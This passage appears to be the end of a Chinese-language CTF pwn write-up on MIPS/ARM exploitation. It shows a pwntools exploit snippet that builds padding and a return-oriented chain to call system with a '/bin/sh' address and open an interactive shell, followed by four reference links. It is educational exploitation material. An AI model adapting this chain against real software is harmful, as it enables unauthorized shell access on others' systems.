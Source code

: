 ```python
payload += 'a'*0x1c
payload += 'a'*4 #s0
payload += p32(binsh_addr)
payload += p32(system_addr)
payload += 'a'*4
payload += p32(0x004007A4)

p.send(payload)
'''

p.interactive()
```



# 参考文章

* [mips&arm&aarch64-pwn初探](https://blog.csdn.net/seaaseesa/article/details/105281585)
* [arm - ROP](https://ctf-wiki.org/pwn/linux/arm/arm_rop/)
* [如何 pwn 掉一个 arm 的binary](https://m4x.fun/post/how-2-pwn-an-arm-binary/)
* [MIPS 环境搭建及调试](https://www.lyyl.online/2020/10/09/MIPS-%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA%E5%8F%8A%E8%B0%83%E8%AF%95/)



